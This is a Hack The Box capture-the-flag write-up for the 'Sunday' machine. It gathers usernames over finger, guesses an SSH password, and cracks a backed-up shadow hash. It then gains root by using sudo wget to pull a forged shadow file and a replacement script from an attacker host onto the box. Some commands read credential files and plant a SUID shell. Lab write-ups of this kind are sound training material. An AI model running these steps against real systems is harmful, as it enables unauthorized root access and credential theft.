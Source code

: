 ```yaml
---
title:     "Hack The Box - Sunday"
tags: [linux,medium,finger,wget,sudo,SUID]
categories: HackTheBox OSCP-Like
---
```


![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled.png)

Getting Initial is by gathering usernames from Finger service and gusesing the password gives use user shell and We need to find backup shadow file to get user sammy's password and privilege escalation is by SUID.

Link: [https://www.hackthebox.eu/home/machines/profile/136](https://www.hackthebox.eu/home/machines/profile/136)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT      STATE  SERVICE VERSION
79/tcp    open   finger
111/tcp   open   rpcbind 2-4 (RPC #100000)
22022/tcp open   ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
```

## Finger Enumeration

### What is Finger?

**A finger service is running on this host. The finger protocol is used to find out information about users on a remote system. Finger servers can usually provide either a list of logged-in users or detailed information on a single user.**

I just downloaded finger-user-enum tool from [Github](https://github.com/pentestmonkey/finger-user-enum). 

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%201.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%201.png)

Here we can see a lot of usernames and only a few have pts and others are TTY

PTS connections are SSH connections

TTY are direct connections to the computer like reverse shell something.

## Getting User Shell

If I tried to login normally, it throws me some error and after adding this argument it worked perfectly. So I tried some default creds and I used the box name as password and Im logged in. `sunny : sunday`

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%202.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%202.png)

## Getting Sammy User Shell

The first thing I did is `sudo -l` and it shows me a binary located in root directory but I can't examine much of it.

```bash
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

While checking through all the folders there is `shadow.backup` file in `/backup` directory and I got sammy user hash.

```bash
sunny@sunday:/$ ls
backup  boot   dev      etc     home    lib         media  net  platform  root   sbin    tmp  var
bin     cdrom  devices  export  kernel  lost+found  mnt    opt  proc      rpool  system  usr
sunny@sunday:/$ cd backup/
sunny@sunday:/backup$ ls
agent22.backup  shadow.backup
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Cracked that using john and the password is `cooldude!`

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%203.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%203.png)

Tried to ssh with `sammy : cooldude!` and Im logged in.

```bash
root@kali:~/CTF/HTB/Boxes/Sunday# ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sammy@10.10.10.76 -p 22022
Password: 
Last login: Tue Apr 24 12:57:03 2018 from 10.10.14.4
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$ whoami
sammy
sammy@sunday:~$
```

## Privilege Escalation

Uploaded my enumeration script and it reveals me that `sudo -l` and it seems I can run `wget` as root without any password.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%204.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%204.png)

So I just created a hash using openssl 

```bash
root@kali:~/CTF/HTB/Boxes/Sunday# openssl passwd -1
Password: 
Verifying - Password: 
$1$9O207kaB$1arg8TyVn3Wuva8gQs.br1
```

And I copied my shadow file and changed the hash with the one I created.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%205.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%205.png)

Now I tried to overwrite the older one with mine and we need to mention `-O` in wget for the filename, otherwise it will be saved as `shadow1` since there is already a file that exists on that name.

```bash
sammy@sunday:/etc$ sudo /usr/bin/wget http://10.10.14.20:8000/shadow -O shadow
--14:33:07--  http://10.10.14.20:8000/shadow
           => `shadow'
Connecting to 10.10.14.20:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1,009 [application/octet-stream]

100%[=============================================================>] 1,009         --.--K/s             

14:33:08 (169.98 MB/s) - `shadow' saved [1009/1009]

sammy@sunday:/etc$ su root
Password: 
su: Password for user 'root' has expired
New Password: 
Re-enter new Password: 
su: password successfully changed for root
sammy@sunday:/etc# su root
sammy@sunday:/etc# whoami
root
```

Now I can do su to root with the new password. And here it says root password is expired and it asked for a new password so I just entered a new password and Im logged in.

### Another Method

We know there is a binary called `troll` which is located in `/root` directory and user sunny have permission to run that as root without any password, So I just made a small bash script that will copy the bash from `/usr/bash` and paste it in /tmp directory and make it SUID.

```bash
sammy@sunday:/root# sudo /usr/bin/wget http://10.10.14.20:8000/troll -O /root/troll 
--15:20:12--  http://10.10.14.20:8000/troll
           => `/root/troll'
Connecting to 10.10.14.20:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 61 [application/octet-stream]

100%[=======================================================================>] 61            --.--K/s             

15:20:13 (14.32 MB/s) - `/root/troll' saved [61/61]
```

Using wget I just replaced the older one, And we need to be quick here because there is some sort of cron running that replaces the file as fast as possible.

When I executed the binary it created the bash with SUID and I need to mention -p while running it because -p mentions run it as an effective user ID which is root.

```bash
sunny@sunday:/tmp$ sudo /root/troll
sunny@sunday:/tmp$ ls
bash  ogl_select254
sunny@sunday:/tmp$ ./bash -p
bash-3.2# whoami
root
bash-3.2#
```

We own the box